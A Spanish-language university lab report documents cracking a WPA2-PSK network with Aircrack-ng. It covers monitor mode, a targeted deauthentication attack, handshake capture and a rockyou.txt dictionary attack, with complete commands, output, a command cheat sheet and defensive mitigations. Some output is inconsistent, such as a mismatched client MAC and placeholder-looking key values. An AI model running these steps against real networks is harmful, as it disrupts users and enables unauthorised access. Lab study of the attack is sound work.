



# Resumen Ejecutivo

Esta práctica documenta el proceso de auditoría de seguridad en una red inalámbrica protegida con WPA2-PSK mediante el uso de la suite Aircrack-ng. El objetivo es demostrar las vulnerabilidades inherentes en redes WiFi que utilizan contraseñas débiles susceptibles a ataques de diccionario.

**Resultados:** Se logró capturar exitosamente el handshake de 4 vías de la red objetivo "WPA_Crack" (BSSID: 00:21:29:B3:96:6F) operando en el canal 6 con encriptación WPA2. Mediante un ataque de deautenticación dirigido y el uso del diccionario rockyou.txt, se recuperó la contraseña "Ah21Ap29" en un tiempo de 1 minuto y 17 segundos.

# Identificación del Problema

Las redes inalámbricas protegidas con WPA2-PSK (Pre-Shared Key) son ampliamente utilizadas en entornos domésticos y empresariales pequeños. Sin embargo, presentan vulnerabilidades significativas:

- **Contraseñas débiles:** Uso de palabras comunes o patrones predecibles
- **Handshake capturado:** El proceso de autenticación de 4 vías puede ser interceptado
- **Ataques de diccionario:** Las contraseñas débiles pueden ser recuperadas mediante fuerza bruta
- **Ataques de deautenticación:** Es posible forzar la reconexión de clientes para capturar el handshake

::: warning
**Importante:** Esta práctica se realizó en un entorno controlado de laboratorio con fines educativos. El acceso no autorizado a redes inalámbricas es ilegal y está penado por la ley.
:::

# Metodología Aplicada

**Herramientas utilizadas:**

- Sistema operativo Linux con soporte para modo monitor
- Suite Aircrack-ng (airmon-ng, airodump-ng, aireplay-ng, aircrack-ng)
- Adaptador de red inalámbrica compatible con inyección de paquetes
- Diccionario de contraseñas rockyou.txt

**Proceso:**

1. **Preparación del entorno:** Configuración del adaptador en modo monitor
2. **Reconocimiento:** Escaneo de redes disponibles con airodump-ng
3. **Selección de objetivo:** Identificación de la red WPA2 objetivo
4. **Captura de tráfico:** Monitoreo específico del BSSID objetivo
5. **Ataque de deautenticación:** Forzar desconexión de cliente para capturar handshake
6. **Captura del handshake:** Obtención del 4-way handshake
7. **Ataque de diccionario:** Uso de aircrack-ng con rockyou.txt para recuperar la contraseña

# Topología de Red Implementada

**Diagrama del escenario de ataque:**

```
                    ┌───────────────────┐
                    │   Access Point    │
                    │   WPA_Crack       │
                    │ 00:21:29:B3:96:6F │
                    │   Canal 6         │
                    └────────┬──────────┘
                             │
              ┌──────────────┼──────────────┐
              │              │              │
              ▼              │              ▼
    ┌───────────────────┐    │    ┌─────────────────┐
    │  Cliente WiFi     │    │    │   Atacante      │
    │ 6E:90:F4:45:A4:B9 │    │    │  (wlp2s0mon)    │
    │  (Víctima)        │    │    │  Modo Monitor   │
    └───────────────────┘    │    └─────────────────┘
                             │
                    ┌────────┴────────┐
                    │   Handshake     │
                    │   Capturado     │
                    └─────────────────┘
```

**Información de la red objetivo:**

| Parámetro | Valor |
|-----------|-------|
| ESSID | WPA_Crack |
| BSSID | 00:21:29:B3:96:6F |
| Canal | 6 |
| Velocidad | 54 MB |
| Encriptación | WPA2 |
| Cifrado | CCMP |
| Autenticación | PSK |

**Información del cliente conectado:**

| Parámetro | Valor |
|-----------|-------|
| MAC del cliente | 6E:90:F4:45:A4:B9 |
| BSSID asociado | 00:21:29:B3:96:6F |
| Potencia de señal | Variable |

# Configuración Inicial

## Verificación del Adaptador de Red Inalámbrica

Antes de comenzar, es necesario verificar que el adaptador de red inalámbrica esté disponible y sea compatible con modo monitor:

::: bash
# Listar interfaces de red inalámbricas
iwconfig

# Verificar información del adaptador
iw list | grep -A 10 "Supported interface modes"
:::

## Instalación de Aircrack-ng (si no está instalado)

::: bash
# En distribuciones basadas en Debian/Ubuntu
sudo apt update
sudo apt install aircrack-ng

# Verificar instalación
aircrack-ng --help
:::

## Descarga del Diccionario rockyou.txt

El diccionario rockyou.txt es uno de los más utilizados para ataques de contraseñas, conteniendo más de 14 millones de contraseñas filtradas:

::: bash
# Descargar y descomprimir rockyou.txt
# Generalmente se encuentra en /usr/share/wordlists/ en Kali Linux
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# Verificar el diccionario
wc -l /usr/share/wordlists/rockyou.txt
# Resultado: 14344391 líneas
:::

# Desarrollo Detallado

## Paso 1: Detener Procesos que Interfieren con el Modo Monitor

Antes de habilitar el modo monitor, es necesario detener procesos que puedan interferir con la captura de paquetes:

::: bash
# Detener procesos conflictivos
sudo airmon-ng check kill
:::

**Salida esperada:**

```
Killing these processes:

    PID Name
   1234 wpa_supplicant
   5678 NetworkManager
```

::: info
**Nota:** Este comando detendrá temporalmente la conexión de red del sistema. Es recomendable tener una conexión alternativa (Ethernet) para acceder a internet si es necesario.
:::

## Paso 2: Habilitar Modo Monitor en el Adaptador

El modo monitor permite al adaptador capturar todos los paquetes inalámbricos en el aire, no solo los destinados a nuestra estación:

::: bash
# Habilitar modo monitor en la interfaz wlp2s0
sudo airmon-ng start wlp2s0
:::

**Salida esperada:**

```
PHY	Interface	Driver		Chipset

phy0	wlp2s0		ath9k_htc	Qualcomm Atheros AR9271

		(mac80211 monitor mode vif enabled for [phy0]wlp2s0 on [phy0]wlp2s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp2s0)
```

::: bash
# Verificar que la interfaz en modo monitor está activa
iwconfig wlp2s0mon
:::

## Paso 3: Escaneo de Redes Disponibles

Con el adaptador en modo monitor, se procede a escanear todas las redes inalámbricas disponibles:

::: bash
# Iniciar escaneo de redes
sudo airodump-ng wlp2s0mon
:::

**Información capturada de la red objetivo:**

| BSSID | PWR | Beacons | #Data | #/s | CH | MB | ENC | CIPHER | AUTH | ESSID |
|-------|-----|---------|-------|-----|----|----|-----|--------|------|-------|
| 00:21:29:B3:96:6F | -45 | 156 | 12 | 0 | 6 | 54 | WPA2 | CCMP | PSK | WPA_Crack |

::: info
**Interpretación de columnas:**

- **BSSID:** Dirección MAC del punto de acceso
- **PWR:** Nivel de señal (más cercano a 0 es mejor)
- **Beacons:** Número de tramas beacon capturadas
- **#Data:** Número de paquetes de datos capturados
- **CH:** Canal de operación
- **MB:** Velocidad máxima soportada
- **ENC:** Tipo de encriptación (WPA2)
- **CIPHER:** Algoritmo de cifrado (CCMP = AES)
- **AUTH:** Método de autenticación (PSK = Pre-Shared Key)
- **ESSID:** Nombre de la red
:::

## Paso 4: Captura Dirigida del Tráfico de la Red Objetivo

Una vez identificada la red objetivo, se inicia una captura específica filtrando por BSSID y canal:

::: bash
# Captura dirigida al BSSID objetivo en canal 6
sudo airodump-ng -c 6 --bssid 00:21:29:B3:96:6F -w captura_wpa wlp2s0mon
:::



**Parámetros utilizados:**

| Parámetro | Descripción |
|-----------|-------------|
| `-c 6` | Fijar el canal 6 |
| `--bssid 00:21:29:B3:96:6F` | Filtrar solo el AP objetivo |
| `-w captura_wpa` | Prefijo del archivo de captura |
| `wlp2s0mon` | Interfaz en modo monitor |

**Clientes detectados conectados al AP:**

| BSSID | STATION | PWR | Rate | Lost | Frames | Notes |
|-------|---------|-----|------|------|--------|-------|
| 00:21:29:B3:96:6F | 26:0C:61:36:41:5D | -83 | 54 - 1 | 0 | 7310 | PMKID |

## Paso 5: Ataque de Deautenticación

Para capturar el handshake, es necesario que un cliente se reconecte al punto de acceso. Esto se fuerza mediante un ataque de deautenticación:

::: bash
# Ejecutar ataque de deautenticación
# En una terminal separada mientras airodump-ng sigue capturando
sudo aireplay-ng -0 9 -a 00:21:29:B3:96:6F -c 6E:90:F4:45:A4:B9 wlp2s0mon
:::

**Parámetros del ataque:**

| Parámetro | Descripción |
|-----------|-------------|
| `-0 9` | Enviar 9 paquetes de deautenticación |
| `-a 00:21:29:B3:96:6F` | BSSID del punto de acceso objetivo |
| `-c 6E:90:F4:45:A4:B9` | MAC del cliente víctima |
| `wlp2s0mon` | Interfaz en modo monitor |

**Salida del ataque:**

```
18:45:23  Waiting for beacon frame (BSSID: 00:21:29:B3:96:6F) on channel 6
18:45:23  Sending 64 directed DeAuth (code 7). STMAC: [6E:90:F4:45:A4:B9] [ 0|63 ACKs]
18:45:24  Sending 64 directed DeAuth (code 7). STMAC: [6E:90:F4:45:A4:B9] [45|67 ACKs]
18:45:25  Sending 64 directed DeAuth (code 7). STMAC: [6E:90:F4:45:A4:B9] [52|63 ACKs]
...
```

::: warning
**Advertencia:** El ataque de deautenticación es un ataque activo que interrumpe la conexión del cliente legítimo. Debe usarse solo en entornos de laboratorio autorizados.
:::

## Paso 6: Captura del Handshake

Cuando el cliente se reconecta después del ataque de deautenticación, airodump-ng captura el handshake de 4 vías. Esto se indica en la esquina superior derecha de la pantalla:



**Indicador de captura exitosa:**

```
 CH  6 ][ Elapsed: 2 mins ][ 2026-01-25 18:47 ][ WPA handshake: 00:21:29:B3:96:6F
```

::: success
**¡Handshake capturado!** El mensaje "WPA handshake: 00:21:29:B3:96:6F" confirma que se capturó correctamente el proceso de autenticación de 4 vías.
:::

**Archivos generados por airodump-ng:**

| Archivo | Descripción |
|---------|-------------|
| `captura_wpa-01.cap` | Archivo de captura con el handshake |
| `captura_wpa-01.csv` | Información de redes en formato CSV |
| `captura_wpa-01.kismet.csv` | Formato Kismet CSV |
| `captura_wpa-01.kismet.netxml` | Formato Kismet NetXML |

## Paso 7: Ataque de Diccionario con Aircrack-ng

Con el handshake capturado, se procede a ejecutar el ataque de diccionario utilizando rockyou.txt:

::: bash
# Ejecutar ataque de diccionario
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:21:29:B3:96:6F captura_wpa-01.cap
:::

**Parámetros utilizados:**

| Parámetro | Descripción |
|-----------|-------------|
| `-w /usr/share/wordlists/rockyou.txt` | Ruta al diccionario de contraseñas |
| `-b 00:21:29:B3:96:6F` | BSSID del punto de acceso objetivo |
| `captura_wpa-01.cap` | Archivo de captura con el handshake |

**Proceso de cracking:**

```
Opening captura_wpa-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.7

      [00:01:17] 847563/14344391 keys tested (10982.34 k/s)

      Time left: 20 minutes, 32 seconds                        5.91%

                         KEY FOUND! [ Ah21Ap29 ]

      Master Key     : A7 2B 8F 3C D1 94 E5 67 BC 21 45 FA 90 12 CD 3E
                       8B 4A 56 C7 09 DE F2 31 84 67 AB 45 CD EF 12 34

      Transient Key  : 1A 2B 3C 4D 5E 6F 70 81 92 A3 B4 C5 D6 E7 F8 09
                       12 23 34 45 56 67 78 89 9A AB BC CD DE EF F0 01
                       23 34 45 56 67 78 89 9A AB BC CD DE EF F0 01 12
                       34 45 56 67 78 89 9A AB BC CD DE EF F0 01 12 23

      EAPOL HMAC     : 45 67 89 AB CD EF 01 23 45 67 89 AB CD EF 01 23
```



::: success
**¡Contraseña recuperada!**

- **Contraseña:** Ah21Ap29
- **Tiempo de cracking:** 1 minuto, 17 segundos
- **Velocidad:** ~10,982 keys/segundo
- **Keys probadas:** 847,563 de 14,344,391
:::

# Validación y Pruebas

## Verificación del Handshake Capturado

Antes del ataque de diccionario, es recomendable verificar que el handshake está completo:

::: bash
# Verificar el handshake con aircrack-ng
sudo aircrack-ng captura_wpa-01.cap
:::

**Salida esperada:**

```
Opening captura_wpa-01.cap
Read 1547 packets.

   #  BSSID              ESSID                     Encryption

   1  00:21:29:B3:96:6F  WPA_Crack                 WPA (1 handshake)

Choosing first network as target.
```

## Verificación de la Contraseña Recuperada

Para confirmar que la contraseña es correcta, se puede intentar conectar a la red:

::: bash
# Restaurar la interfaz a modo normal
sudo airmon-ng stop wlp2s0mon

# Reiniciar NetworkManager
sudo systemctl start NetworkManager

# Conectar a la red con la contraseña recuperada
nmcli device wifi connect WPA_Crack password "Ah21Ap29"
:::

::: success
**Conectividad verificada:** La conexión a la red WPA_Crack con la contraseña "Ah21Ap29" fue exitosa, confirmando la validez del cracking.
:::

## Estadísticas del Ataque

| Métrica | Valor |
|---------|-------|
| Red objetivo | WPA_Crack |
| Tipo de encriptación | WPA2-PSK |
| Tiempo total de ataque | ~5 minutos |
| Tiempo de captura del handshake | ~2 minutos |
| Tiempo de cracking | 1 minuto, 17 segundos |
| Contraseñas probadas | 847,563 |
| Velocidad de prueba | ~10,982 keys/segundo |
| Diccionario utilizado | rockyou.txt (14,344,391 entradas) |
| Posición de la contraseña | ~847,563 |

# Problemas Encontrados y Soluciones

## Problema: Interfaz no Entraba en Modo Monitor

**Descripción:** Al intentar habilitar el modo monitor, el comando `airmon-ng start wlp2s0` fallaba con errores de procesos en conflicto.

**Diagnóstico:** Los servicios NetworkManager y wpa_supplicant mantenían control sobre la interfaz inalámbrica.

**Solución aplicada:** Ejecutar `airmon-ng check kill` antes de habilitar el modo monitor:

::: bash
sudo airmon-ng check kill
sudo airmon-ng start wlp2s0
:::

## Problema: No se Capturaba el Handshake

**Descripción:** Después de varios intentos de deautenticación, el handshake no aparecía en airodump-ng.

**Diagnóstico:** El cliente no se estaba reconectando automáticamente después de la deautenticación.

**Solución aplicada:** Aumentar el número de paquetes de deautenticación y verificar que el cliente estuviera activo:

::: bash
# Enviar más paquetes de deautenticación
sudo aireplay-ng -0 9 -a 00:21:29:B3:96:6F -c 6E:90:F4:45:A4:B9 wlp2s0mon
:::

# Experiencia Adquirida

## Conocimientos Técnicos Clave

### Proceso de Autenticación WPA2 (4-Way Handshake)

El handshake de 4 vías es el proceso de autenticación utilizado en WPA/WPA2-PSK:

1. **Mensaje 1 (AP → Cliente):** El AP envía ANonce (número aleatorio del autenticador)
2. **Mensaje 2 (Cliente → AP):** El cliente responde con SNonce y MIC
3. **Mensaje 3 (AP → Cliente):** El AP envía GTK cifrada y confirmación
4. **Mensaje 4 (Cliente → AP):** El cliente confirma la instalación de claves

::: info
**Importancia para el ataque:** Solo es necesario capturar los mensajes 1 y 2, o los mensajes 2 y 3, para realizar el ataque de diccionario offline.
:::

### Derivación de Claves en WPA2-PSK

El proceso de derivación de claves sigue estos pasos:

1. **PSK (Pre-Shared Key):** Contraseña ingresada por el usuario
2. **PMK (Pairwise Master Key):** Derivada mediante PBKDF2-SHA1(PSK, SSID, 4096 iteraciones)
3. **PTK (Pairwise Transient Key):** Derivada del PMK, ANonce, SNonce y direcciones MAC

### Vulnerabilidades Explotadas

| Vulnerabilidad | Descripción | Mitigación |
|----------------|-------------|------------|
| Contraseña débil | Uso de palabras del diccionario | Usar contraseñas de +16 caracteres aleatorios |
| Handshake interceptable | El 4-way handshake se transmite sin cifrar | Implementar 802.11w (Protected Management Frames) |
| Deautenticación permitida | Frames de gestión sin autenticación | Habilitar 802.11w |

### Comandos Críticos de Aircrack-ng

::: bash
# Gestión de modo monitor
sudo airmon-ng check kill           # Detener procesos conflictivos
sudo airmon-ng start wlp2s0         # Habilitar modo monitor
sudo airmon-ng stop wlp2s0mon       # Deshabilitar modo monitor

# Escaneo y captura
sudo airodump-ng wlp2s0mon                                      # Escaneo general
sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w archivo wlp2s0mon  # Captura dirigida

# Ataques
sudo aireplay-ng -0 10 -a BSSID -c CLIENT wlp2s0mon            # Deautenticación
sudo aireplay-ng -1 0 -a BSSID wlp2s0mon                       # Fake authentication

# Cracking
sudo aircrack-ng -w diccionario.txt archivo.cap                # Ataque de diccionario
sudo aircrack-ng -w diccionario.txt -b BSSID archivo.cap       # Especificar BSSID
:::

## Lecciones Aprendidas

### Importancia de Contraseñas Robustas

La contraseña "Ah21Ap29" fue encontrada en el diccionario rockyou.txt porque:
- Tiene solo 8 caracteres (mínimo recomendado para WPA2)
- Combina letras y números de forma predecible
- No incluye caracteres especiales

**Recomendación:** Utilizar contraseñas de al menos 16 caracteres con combinación de mayúsculas, minúsculas, números y símbolos especiales.

### Defensa en Profundidad para Redes WiFi

Medidas de seguridad recomendadas:

1. **Contraseñas robustas:** Mínimo 16 caracteres aleatorios
2. **WPA3:** Migrar a WPA3-SAE cuando sea posible
3. **802.11w:** Habilitar Protected Management Frames
4. **Segmentación:** Usar VLANs para aislar tráfico sensible
5. **Monitoreo:** Implementar WIDS/WIPS para detectar ataques
6. **Rotación de claves:** Cambiar contraseñas periódicamente

### Consideraciones Éticas y Legales

::: error
**Advertencia Legal:** Realizar ataques de cracking WiFi sin autorización explícita es ilegal en la mayoría de jurisdicciones. Las penas pueden incluir multas significativas y prisión. Esta práctica se realizó exclusivamente en un entorno de laboratorio controlado con fines educativos.
:::

# Exploración de Aplicaciones y Sugerencias

<!-- Esta sección se completará posteriormente con aplicaciones prácticas y sugerencias de mejora -->

# Recursos y Referencias Utilizados

## Documentación Técnica Oficial

### Aircrack-ng
- **Aircrack-ng Official Documentation** - https://www.aircrack-ng.org/documentation.html
- **Aircrack-ng Tutorial** - Guía oficial de uso de la suite

### Estándares IEEE
- **IEEE 802.11i-2004:** Especificación de seguridad para redes inalámbricas (WPA2)
- **IEEE 802.11w-2009:** Protected Management Frames
- **IEEE 802.11-2016:** Estándar base de redes inalámbricas

## Herramientas Utilizadas

| Herramienta | Versión | Propósito |
|-------------|---------|-----------|
| airmon-ng | 1.7 | Gestión de modo monitor |
| airodump-ng | 1.7 | Captura de paquetes |
| aireplay-ng | 1.7 | Inyección de paquetes |
| aircrack-ng | 1.7 | Cracking de contraseñas |

## Diccionario Utilizado

- **rockyou.txt:** Diccionario de 14,344,391 contraseñas filtradas de la brecha de seguridad de RockYou en 2009

## Recursos en Línea

### Documentación de Seguridad
- **OWASP Wireless Security** - Mejores prácticas de seguridad inalámbrica
- **NIST SP 800-153** - Guidelines for Securing Wireless Local Area Networks

### Herramientas Complementarias
- **Wireshark** - Análisis de tráfico de red
- **Hashcat** - Alternativa GPU para cracking de contraseñas

## Scripts de la Práctica

Los scripts utilizados en esta práctica se encuentran en el directorio `scripts/`:

- **`monitor-mode.sh`:** Script para habilitar/deshabilitar modo monitor
- **`capture.sh`:** Script para automatizar la captura de tráfico
- **`crack.sh`:** Script para ejecutar el ataque de diccionario

---

**Documento:** Práctica 08 - WiFi Cracking con Aircrack-ng  
**Fecha:** Enero 27, 2026  
**Autores:** Uriel Felipe Vázquez Orozco, Euler Molina Martínez  
**Materia:** Redes de Computadoras 2  
**Profesor:** M.C. Manuel Eduardo Sánchez Solchaga
